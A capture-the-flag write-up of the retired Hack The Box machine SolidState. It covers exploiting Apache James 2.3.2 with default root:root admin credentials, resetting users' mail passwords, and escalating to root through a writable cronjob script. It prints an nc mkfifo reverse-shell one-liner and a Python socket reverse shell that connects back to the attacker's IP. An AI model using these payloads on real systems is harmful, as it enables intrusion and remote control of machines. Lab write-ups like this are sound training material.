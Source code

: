 ```yaml
---
title: SolidState Hackthebox Writeup
date: 2021-01-17 04:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,mail,ssh,james,pop3,smtp,cronjob,python]     # TAG names should always be lowercase
image: /assets/img/solidstate-hackthebox/solidstate-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Solidstate:~$


Column | Details
------------ | -------------
Name | SolidState
IP | 10.10.10.51
Points | 30
Os | Linux
Difficult | Medium
Creator | [ch33zplz](https://www.hackthebox.eu/home/users/profile/3338)
Out on | 8th September 2017 

# Summary:~$

* Discovering the new host and scanning for open ports.
* Found a  `vulnerability` for port 110 i.e. *JAMES pop3d 2.3.2*.
* Made the exploit running by loging in port `4555` i.e *james-admin JAMES Remote Admin 2.3.2* with default credentials **root:root**.
* Accessing mails for other users by changing their `passwords` from *Remote Admin Pannel* on port 4555.
* Got reverse shell as soon as accessed `SSH` for a user.
* Exploited a `cronjob` to escalate privileges.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/solidstate-hackthebox/nmap-scan-1.png)

Let's access `Port 80`.

___
![](/assets/img/solidstate-hackthebox/port-80-2.png)

Moved around a bit, but didn't find anything interesting. I used `dirbuster` for hidden directories but couldn't find anything.

I used `searchsploit` to check about **JAMES pop3d 2.3.2** which is a `pop3` service.

___
![](/assets/img/solidstate-hackthebox/searchsploit-james-4.png)

It shows Remote Code Execution but before that we need to change the payload present in the python file.

*Original Script*:

___
![](/assets/img/solidstate-hackthebox/update-the-code-on-script-5.png)

Changed it with [Payload](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 

*Payload--> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 9999 >/tmp/f*

___
![](/assets/img/solidstate-hackthebox/final-exploit-7.png)

I ran the script once and came to know that when a user will login in `SSH` then only this script will work.

By the time from the `full port scan` I came to know that `Port 4555` is also open.

___
![](/assets/img/solidstate-hackthebox/nmap-scan-new-1.png)

*JAMES Remote Admin 2.3.2* is running. Accessing port `4555` via *telnet*.

___
![](/assets/img/solidstate-hackthebox/accessed-port-4555-james-6.png)

I used default credentials and loggedin. **Credentials**: *root:root*.

Checking the users by using the `help` command.

___
![](/assets/img/solidstate-hackthebox/list-of-users-8.png)

`5 Users` are present i.e:

* james
* mindy
* thomas
* mailadmin
* john

From the `help` command, we have the permission to change the password of any user. Let's do that and acess their respective mails on port `110`.

___
![](/assets/img/solidstate-hackthebox/resetting-passwords-9.png)

Now the username is also the password eg. For user `james` password is `james`.

Mails for `james` and `thomas` were empty but `john` gave us something.

___
![](/assets/img/solidstate-hackthebox/reading-johns-mail-12.png)

Let's access `Mindy's` mail. There are 2 mails for Mindy, Reading the second mail we got the password for `SSH`.

___
![](/assets/img/solidstate-hackthebox/mindy-account-mail-two-14.png)

**Username**: *mindy*
**Password**: *P@55W0rd1!2@*

Now let's listen on the port (*9999*) which I had specified during changing the payload in the `python script`. and login into `SSH`.

___
![](/assets/img/solidstate-hackthebox/running-ssh-and-got-shell-15.png)

As soon as I logged into *SSH*, it didn't respond and we got a shell as `mindy`.

___
![](/assets/img/solidstate-hackthebox/got-shell-as-mindy-16.png)

Got `User Flag`.

For `Privilege Escalation`, downloading [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) on victim machine using wget and hosting it on local system.

**Wget Command**: *wget http://10.10.X.X:8081/linpeas.sh*

**Hosting Command**: *python3 -m http.server 8081*

___
![](/assets/img/solidstate-hackthebox/downloading-linpeas-17.png.png)

Running it by giving executable permissions: *chmod +x linpeas.sh*, I found something interesting:

___
![](/assets/img/solidstate-hackthebox/something-interesting-18.png)

___
![](/assets/img/solidstate-hackthebox/permissions-tmp-py-19.png)

The file is owned by `root` but we have write access, further using [pspy32](https://github.com/DominicBreuker/pspy/blob/master/README.md) to detect whether it's a cronjob or not i.e. `tmp.py`.

**Wget Command**: *wget http://10.10.X.X:8081/pspy32*

**Hosting Command**: *python3 -m http.server 8081*

___
![](/assets/img/solidstate-hackthebox/downloading-pspy32-21.png)

Running it by giving executable permissions: *chmod +x pspy32*, Every 3 minutes a cronjob is runnning of tmp.py.

___
![](/assets/img/solidstate-hackthebox/pspy-cronjob-21.png)

Now let's write our `payload` in tmp.py and get `Root`.

___
![](/assets/img/solidstate-hackthbox/changing-data-in-tmp-py-20.png)

[Payload](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

*echo '#!/usr/bin/env python' > tmp.py*

*echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",8989));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> tmp.py*

Let's listen on `port 8989` using `nc`.

___
![](/assets/img/solidstate-hackthebox/got-root-22.png)

Got `Root`.
